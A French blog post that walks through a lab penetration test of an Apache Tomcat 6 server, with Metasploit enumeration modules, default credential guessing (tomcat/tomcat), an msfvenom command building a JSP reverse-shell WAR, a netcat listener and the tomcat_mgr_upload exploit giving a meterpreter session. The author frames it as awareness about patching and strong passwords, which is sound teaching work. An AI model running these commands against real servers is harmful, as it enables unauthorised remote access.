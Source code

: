 ```yaml
---
layout: post
title:  "Test d'intrusion sur un serveur Apache Tomcat"
date:   2021-10-19
last-update: 
categories: Linux
tags: shell ssh linux tomcat
image: /assets/article/pentest/tomcat-metasploit/tomcat-manager.PNG 
description: cet article présente un test d'intrusion sur un serveur apache tomcat dans l'objectif de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
---
```




>Ce write-up présente les possibles vulnérabilités d'un serveur Apache tomcat 6.18 afin de sensibiliser l'utilisateur à certaines bonnes pratiques lors la configuration d'un serveur apache tomcat, notamment :
>
>-Tenir à jour sa version tomcat
>
>-Utiliser des mots de passes forts
>
>Tous les exemples montrés sur cet article l'ont été sur des machines de laboratoires.
>



## Introduction

Lors d'un laboratoire, après avoir avoir scanné le réseau avec nmap, j'ai pu voir qu'un serveur tomcat tournait sur le port 8080 à l'adresse <IP>.

![tomcat-scan]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-scan.PNG)



 En accédant depuis le navigateur, j'accédais à la page d'accueil du serveur. En rouge, deux adresses url intéressantes car elles permettent d'accéder à l'interface d'administration du serveur.

![tomcat-index]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-index.PNG)

## Tentative

Avant de trouver la bonne solution, quelques tentatives ont été réalisées avec metasploit

### tomcat_enum

Ce module énumère les noms d'utilisateurs apache en envoyant des requête malformées au j_security_check.

Version vulnérable : 4.1.0 - 4.1.39, 5.5.0 - 5.5.27, and 6.0.0 - 6.0.18

Les nouvelles versions de Tomcat ne sont pas vulnérable

```
use auxiliary/scanner/http/tomcat_enum
set RHOST <target IP:PORT> 
run
```

Source : 

- https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_enum/
- https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples



#### Résultat 

L'attaque n'a pas fonctionnée dans mon cas

### dir_scanner

Le scanner de répertoire permet de scanner un serveur web afin de trouver des répertoires intéressants. 

```
use auxiliary/scanner/http/dir_scanner
SET RHOST <target IP>
set RPOT <traget PORT>
run
```

Source :

[www.offensive-security.com - scanner-http-auxiliary-modules/](https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/)

#### Résultat 

L'exploit n'a pas trouvé de répertoires sensibles.

### Brute-force login

Le module tomcat_mgr_login permet de brute-forcer la page de login du manager :

Source :

-  [www.rapid7.com - http/tomcat_mgr_login/](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/)
- [https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote)



## Solution



Sur la page http, on peut voir un lien url vers la page manager demandant un mot de passe et un nom d'utilisateur.

### "Brute-force" manuel du login

Sur ce github, on peut trouver tout une liste de mot de passe habituel/par défaut : [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)

En cherchant également sur internet, je suis tombé sur plusieurs articles qui utilisaient la pair tomcat /tomcat comme nom d'utilisateur / mot de passe.

En essayant sur la page => bingo.

On arrive ainsi sur la page manager

![tomcat-manager]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-manager.PNG)



### shell - Upload war

Une fois sur la page de manager, on peut tenter d'obtenir un reverse shell un uploadant un fichier war.

#### Tentative ratée

Ayant mal configuré mon metasploit,t j'ai crû que les modules  metasploit ne fonctionnaient pas. J'obtenais l'erreur suivante : 

> Handler failed to bind <ip>

 J'ai donc tenté de "crafté" moi-même mon war en passant par `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war -o rshell3.war
```

Puis après avoir cliqué sur le fichier uploadé dans le manager, j'ai lancé avec metasploit et netcat des serveurs pour "écouter"

- metasploit

```bash
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```

Documentation officielle : [offensive-security.com - scanner-http-auxiliary-modules/](https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/)

- netcat

```bash
nc -lvp 1234
```

J'ai probablement mal configuré mes attaques car celles-ci ne fonctionnaient pas



#### Source 

Cet article explique comment créer son propre payload avec MSFVenom

https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/

#### Tentative réussie

J'ai retenté avec metasploit où j'ai découvert que je n'avais pas configuré mon LHOST et c'était alors mon IP habituel au lieu de celle du VPN qui était prise. C'est pour cela que j'avais l'erreur 

> Handler failed to bind <ip>

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS <target IP>
set RPORT 8080
set LHOST <IP>
set HttpUsername tomcat
set HttpPassword tomcat
exploit
```

Il suffit ensuite d'attendre quelques instants pour obtenir une session meterpreter et le tour est joué :)

![tomcat-meterpreter]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-meterpreter.png)

Sur le manager, on peut constater qu'un fichier a été uploadé

![manager-file-upload]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/manager-file-upload.png)



Source : 

[rapid7.com - http/tomcat_mgr_upload/](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)



## Sources 

- [https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)
- [https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)
- [https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote)
- Plusieurs attaques sur tomcat : [book.hacktricks.xyz - tomcat#examples](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples)
- Documentation officielle metasploit : [rapid7.com - http/tomcat_mgr_upload/](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)